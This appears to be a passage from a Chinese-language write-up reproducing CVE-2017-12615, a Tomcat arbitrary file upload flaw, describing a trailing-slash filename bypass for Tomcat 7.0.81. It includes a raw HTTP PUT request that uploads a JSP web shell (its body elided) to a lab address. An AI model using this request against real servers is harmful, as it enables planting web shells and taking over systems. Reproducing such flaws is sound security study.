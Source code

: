 ![img](Tomcat文件上传-CVE-2017-12615-复现/ScreenShot02.png)
写入成功！

- ### 0x03 任意文件上传 · 姿势二 （可攻击Tomcat 7.0.81）

思路：可以上传jSp文件(但不能解析)，却不可上传jsp。 说明tomcat对jsp是做了一定处理的。那么就考虑是否可以使其处理过程中对文件名的识别存在差异性，前面的流程中 test.jsp/ 识别为非jsp文件，而后续保存文件的时候，文件名不接受/字符，故而忽略掉。

payload ::
```
PUT /222.jsp/ HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```
![img](Tomcat文件上传-CVE-2017-12615-复现/ScreenShot06.png)
写入成功！
